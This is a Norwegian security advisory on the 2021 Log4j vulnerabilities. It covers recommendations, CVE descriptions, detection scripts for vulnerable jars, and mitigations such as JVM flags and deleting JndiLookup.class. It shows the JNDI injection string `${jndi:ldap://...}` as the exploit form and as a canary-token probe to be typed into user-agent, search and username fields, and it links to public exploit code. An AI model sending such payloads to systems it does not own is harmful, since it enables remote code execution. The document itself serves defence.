



# Sårbarheter i Log4j

Oppdatering 19.12.2021: Det oppdages stadig nye sårbarheter og nye måter å bruke disse på i Log4j. Vi har lagt tre flytskjema (mind maps) til i gitrepoet som beskriver hhv [sårbare versjon av Log4j](#mm1), [hvordan man kan sjekke om man er sårbar](#mm2) og [mitigering av de forskjellige sårbarhetene](#mm3).

# Anbefaling

### Log4j v2.x:
- Identifiser programvare som benytter Log4j versjon 2
- Mitiger sårbarheter i Log4j
  - Oppdater programvare som benytter Log4j til en versjon som benytter Log4j 2.17.0

  Om overstående ikke er mulig

  - Sørg for at mitigerende tiltak for CVE-2021-44228 og CVE-2021-45046 er gjennomført [4], **merk at da er man sårbar for DoS**
  - Om systemene er spesielt kritiske, vurder å se etter `Context Lookups` i `Pattern Layouts` i konfigurasjonen for Log4j2

### Log4j v1.x:
- Identifiser programvare som benytter Log4j versjon 1. 

Hvis Log4j versjon 1.x benyttes i virksomheten, gå i dialog med leverandør og krev at de 
- Oppgrader til Log4j versjon 2 

eller
- Går over til et annet bibliotek hva gjelder logging

eller
- Implementerer andre mitigering for begge sårbarhetene

# Sårbarhetene

CVE-2021-44228

Den store stygge ulven av sårbarhetene i Log4j. Sårbarhet utnyttes når en variant av strengen  `${jndi:ldap://\<angrepskode>/a}` logges av Log4j. CVSS 10.0, RCE.

CVE-2021-45046

Ikke like stor som CVE-2021-44228, men like stygg. Krever ikke-standard oppsett av Log4j. CVSS 9.0, RCE og DoS.

CVE-2021-45105

Ikke like stor som CVE-2021-44228, også litt mindre stygg. CVSS 7.5, DoS

CVE-2021-4104

Gjelder kun Log4j versjon 1.x. Krever at Log4j bruker JMSAppender. CVSS 6.6, RCE
Utnyttelse krever at Log4j bruker JMSAppender. Enten ved at JMSAppender er konfigurert direkte - noe som er uvanlig - eller ved at angriper selv legger den til i konfigurasjonen for Log4j. 
I tillegg må angriper ha tilgang til å endre konfigurasjonen for JMSAppender. Om dette er tilfelle vil angriper normalt allerede ha tilgang på systemet. Sårbarheten anses derfor som lite relevant.

CVE-2019-17571

Gjelder kun Log4j versjon 1.x. Krever at Log4j bruker SocketServer. CVSS 9.8, RCE
Gir angriper med nettverksmessig tilgang til aktuell socket mulighet til kodeeksekvering. Kode for utnyttelse er [offentlig tilgjengelig](https://0xsapra.github.io/website/CVE-2019-17571).

 
For Java 8 er Log4j v. **2.17.0** siste versjon. Den mitigerer alle sårbarhetene over.

Versjon **2.16.0** Mitigerer de verste sårbarhetene. 

 For Java7 er Log4j gitt ut i versjon 2.12.2. Denne mitigerer ikke CVE-2021-45105. Teamet bak Log4j sier forøvrig at [hverken Java 6 eller Java 7 er støttet lenger](https://logging.apache.org/log4j/2.x/download.html#Previous_Releases). Det er uvisst om de kommer med enda en sikkerhetsoppdatering for Log4j i Java 7.

Flytskjemaet "Mind map #1" gir en god oversikt for forutsetningene for om man har de forskjellige sårbarhetene.  

Laget av Loïc Castel. [Hentet fra github](https://github.com/DickReverse/InfosecMindmaps).

# Oppdage om man er sårbar

Litt av utfordringen er at det er ikke nødvendigvis servere som er direkte eksponert mot internett som er sårbare. Sårbarheten kan være i en server lenger bak i 'kjeden' som mottar samme data og logger den. Dette kan gjøre det utfordrende å vite hva som er eksponert og ikke.

Flytskjemaet "Mind map #2" gir en god oversikt for hvordan man kan sjekke egne systemer for sårbarhetene. 

 Laget av Loïc Castel. [Hentet fra github](https://github.com/DickReverse/InfosecMindmaps).
 

 
Ved å trigge sårbarhet

1. Opprett DNS-kanaritoken [https://canarytokens.org/generate#](https://canarytokens.org/generate#) 

2. Bygg denne tekststrengen ${jndi:ldap://\<kanaritoken\>/a}
3. Skriv inn denne strengen i alle felt som potensielt kan logges
 

    - User-agent
    - Søkefelt
    - Brukernavn
    - ...

4. Følg opp kanaritreff og finn ut hvor log4j kjører.

Ref: [Tweet fra Florian Roth](https://twitter.com/cyb3rops/status/1469405846010572816)

 
Ved å søke på hoster

#### Windows 

Denne tar alle disker, inkludert mapped network drives:

    Get-PSDrive -PSProvider FileSystem | foreach {(gci ($_.Root) -rec -force -include *.jar -ea 0 | foreach {select-string "JndiLookup.class" $_} | select -exp Path)}

Ref: [https://twitter.com/0gtweet/status/1469661769547362305](https://twitter.com/0gtweet/status/1469661769547362305)

Hvis man kun ønsker å sjekke lokale disker:

    Get-CimInstance win32_volume | Where-Object { $_.DriveType -eq 3 -and $_.DriveLetter -ne $null} | ForEach-Object {(gci ($_.DriveLetter+"\") -rec -force -include *.jar -ea 0 | foreach {select-string "JndiLookup.class" $_} | select -exp Path)}

Ref: [https://twitter.com/webmastir/status/1470386184052486155?s=20](https://twitter.com/webmastir/status/1470386184052486155?s=20)

Hvis man i tillegg ønsker å sjekke eventloggen på maskinen. 

    Get-WinEvent -ListLog * |
      foreach { get-winevent @{logname=$_.logname; } -ea 0 } |
      where message -match 'jndi'

#### Linux #1

    #!/bin/bash
    find / -name '*log4j*.jar' -print0 2>/dev/null -print0 | while read -d $'\0' log4j; do
            echo -en "${log4j}: "$(unzip -p "${log4j}" | strings | grep -Po '^Implementation-Version:\s+([0-9\.]+)' | awk '{ print $NF }')"\n"
    done
    exit 0
Kjøres som root

#### Linux #2
    lsof | grep log4j-core

 

 
# Mitigere sårbarhet

Flytskjemaet "Mind map #3" gir en oversikt over mitigeringsmuligheter.  

  

 

 Laget av Loïc Castel. [Hentet fra github](https://github.com/DickReverse/InfosecMindmaps).
 
Under har vi listet opp litt ressurser for å utføre mitigeringene.

 
 #1 Patch 

 
 ## Java 8
 
 Oppdater Log4j til v 2.17.0
 
 ## Java 7 
 
 Oppdater Log4j til v 2.12.2 **OBS** mitigerer ikke CVE-2021-45105
 

 
 

 

  
 #4 Mitigate #1: Sette variabel

> :warning: ***denne metoden anses ikke lengre som en fullgod løsning da den ikke mitigerer alle sårbarhetene i alle situasjonene.***

### Windows

    [Environment]::SetEnvironmentVariable("LOG4J_FORMAT_MSG_NO_LOOKUPS","true","Machine")
**MERK: Krever omstart**

Fra [https://twitter.com/CyberRaiju/status/1469505680138661890](https://twitter.com/CyberRaiju/status/1469505680138661890)

### Sette JVM flagg
    "‐Dlog4j2.formatMsgNoLookups=True"
Command line example:

    JAVA_OPTS="-Dlog4j2.formatMsgNoLookups=true" teku --network mainnet

Or with an -Xmx value:

    JAVA_OPTS="-Dlog4j2.formatMsgNoLookups=true -Xmx4g" teku

Systemd config example:

    Environment='JAVA_OPTS="-Dlog4j2.formatMsgNoLookups=true"'

Or with an -Xmx value:

    Environment='JAVA_OPTS="-Dlog4j2.formatMsgNoLookups=true" "-Xmx4g'
**Dette lastes ved restart av applikasjonen**
Fra [https://github.com/ConsenSys/teku/security/advisories/GHSA-mwfw-vm54-g3p7](https://github.com/ConsenSys/teku/security/advisories/GHSA-mwfw-vm54-g3p7)

    
 

  
 #4 Mitigate #2: Slett javaklasse

Slett JndiLookup.class i jar-filen til log4j. 

En jarfil er et arkiv (zip-fil) og kan åpnes. Filer kan deretter fjernes. Dette kan utføres manuelt med verktøy som 7-zip (se bilde) eller ved bruk av script.

**Krever restart av applikasjonen**

Ref: [https://mogwailabs.de/en/blog/2021/12/vulnerability-notes-log4shell/9](https://mogwailabs.de/en/blog/2021/12/vulnerability-notes-log4shell/)

#### Windows

    [Reflection.Assembly]::LoadWithPartialName('System.IO.Compression')
    $JarFilLokasjon = 'C:\temp\log4j-core-2.13.0-test.jar'
    $Filnavn   = 'JndiLookup.class' #Denne filen slettes!
 
    $Stream = New-Object IO.FileStream($JarFilLokasjon, [IO.FileMode]::Open)
    $ZipMode   = [IO.Compression.ZipArchiveMode]::Update
    $Zip    = New-Object IO.Compression.ZipArchive($stream, $ZipMode)
 
    ($zip.Entries | Where-Object { $Filnavn -contains $_.Name }) | ForEach-Object { $_.Delete() }
    $zip.Dispose()
    $stream.Close()
    $stream.Dispose()

#### Linux

    zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class

## Lister over berørt programvare

[https://github.com/NCSC-NL/log4shell/tree/main/software](https://github.com/NCSC-NL/log4shell/tree/main/software)

[https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592](https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592)
 
[https://github.com/cisagov/log4j-affected-db](https://github.com/cisagov/log4j-affected-db)
